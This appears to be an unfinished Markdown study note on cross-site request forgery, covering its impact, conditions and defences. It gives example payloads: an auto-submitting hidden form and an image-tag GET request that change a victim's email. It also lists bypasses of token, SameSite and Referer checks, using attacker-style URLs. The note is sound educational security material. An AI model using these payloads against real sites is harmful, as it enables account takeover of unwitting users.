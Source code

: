 # Cross-site request forgery (CSRF)

## Impact
- The attacker causes the victim user to carry out an action unintentionally
  - Change password, email, make a funds transfer
- If the victim is a privileged user the attacker might be able to take full control of all the application's

## Conditions
- A relevant action
  - Example: change password
- Cookie-based session handling
- No unpredictable request parameters:
  - If you need to know the value of the existing password -> no vulnerable

## Examples
1) with POST
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
2) with GET
```
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

## Defences
1) CSRF tokens
2) SameSite cookies
3) Referer-based validation

### CSRF tokens bypass
- A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client 
```
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```
#### Common flaws in CSRF token validation
- Validation of CSRF token depends on request method
  - Some apps correctly validate the token for POST requests but skip validation for GET requests.
    - Switch from POST to the GET method to bypass
- Validation of CSRF token depends on token being present
  - Some apps validate the token correctly when present but skip validation if it's omitted.
    - Remove the entire parameter containing the token
- CSRF token is not tied to the user session
  - Some apps don't validate if the token belongs to the same session as the requesting user.
    -  Log in to the application with your account, obtain a valid token, and then feed that token to the victim user in their CSRF attack
- CSRF token is tied to a non-session cookie
  - ## TO DO
- CSRF token is simply duplicated in a cookie
  - ## TO DO

### SameSite cookies bypass
It determines when a website's cookies are included in requests originating from other websites
## TO DO

### Referer-based validation bypass
Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain
- Validation of Referer depends on header being present
  - Some apps validate the Referer header if present, but skip if omitted
  - ` <meta name="referrer" content="never"> `
- Validation of Referer can be circumvented
  - ` http://vulnerable-website.com.attacker-website.com/csrf-attack `
  - ` http://attacker-website.com/csrf-attack?vulnerable-website.com `
  - ` http://attacker-website.com/vulnerable-website.com `
  - Note1: add Referrer-Policy: unsafe-url
  - Note2: Firefox 87 new default Referrer Policy ‘strict-origin-when-cross-origin’ trimming user sensitive information like path and query string to protect privacy. 


